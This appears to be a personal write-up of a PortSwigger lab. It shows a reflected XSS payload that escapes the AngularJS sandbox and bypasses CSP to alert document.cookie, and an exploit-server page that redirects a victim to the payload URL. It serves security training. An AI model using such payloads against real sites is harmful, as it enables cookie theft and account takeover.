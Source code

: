 # Reflected XSS with AngularJS sandbox escape and CSP | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp), you'll learn: Reflected XSS with AngularJS sandbox escape and CSP! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab uses [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) and [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection).

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses CSP, escapes the AngularJS sandbox, and alerts `document.cookie`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080626.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080701.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080717.png)

As you can see, our input is reflected to the web page.

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080822.png)

In here, we also can see the CSP (Content Security Policy) is enabled.

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

In this case, it'll **only allow scripts to be loaded from the same origin as the page itself.**

**Now, let's try to inject some HTML tags:**
```html
<input autofocus>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101081637.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101081647.png)

Yep we can.

**Next, we need to bypass the AngularJS sandbox and CSP:**
```html
<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```

- First, we use `ng-focus` event in AngularJS to create a focus event that bypasses CSP.
- Then, use `$event`, which is an AngularJS variable that references the event object.
- After that, the `path` property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the `window` object.
- Finally, use the `orderBy` filter, and the `:` is the argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the `window` object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the `window` object, effectively bypassing AngularJS's `window` check.

**Now, we can go the exploit server, host our payload and deliver to victim:**
```html
<html>
    <head>
        <title>XSS-28</title>
    </head>
    <body>
        <script>
            window.location.replace("https://0a6b004b04d03a63c09d548600500044.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x");
        </script>
    </body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101084134.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101084141.png)

Nice!

# What we've learned:

1. Reflected XSS with AngularJS sandbox escape and CSP